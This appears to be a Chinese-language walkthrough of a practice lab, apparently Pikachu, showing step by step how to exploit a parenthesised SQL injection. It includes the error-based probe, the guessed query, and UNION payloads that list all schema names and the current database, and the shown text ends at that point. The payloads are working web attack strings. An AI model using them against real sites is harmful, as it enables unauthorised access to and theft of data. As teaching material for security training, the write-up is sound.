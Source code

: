 ## 4.6.xx型注入

### 判断注入类别

```
#查看页面变化，判断sql注入类别 
1' # 

```

出错内容

发现1后面有个括号

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1'')' at line 1
```

![image-20220126205307409](https://gitee.com/xxb667/img/raw/master/img/image-20220126205307409.png)

猜测语句

```
猜测SQL语句为
select username from user where username=('$name');
```

### 查看显示位

```
#联合查询查看显示位 

x') union select 1,2 #
```

![image-20220126205453809](https://gitee.com/xxb667/img/raw/master/img/image-20220126205453809.png)

### 爆库

得出数据库中的所有数据库名

```
 #爆库【pikachu】 
 
 x') union select 1,group_concat(schema_name) from information_schema.schemata # 
```

![image-20220126205728324](https://gitee.com/xxb667/img/raw/master/img/image-20220126205728324.png)

得出当前数据库名

```
得出当前数据库名
x') union select 1,database() # 
```
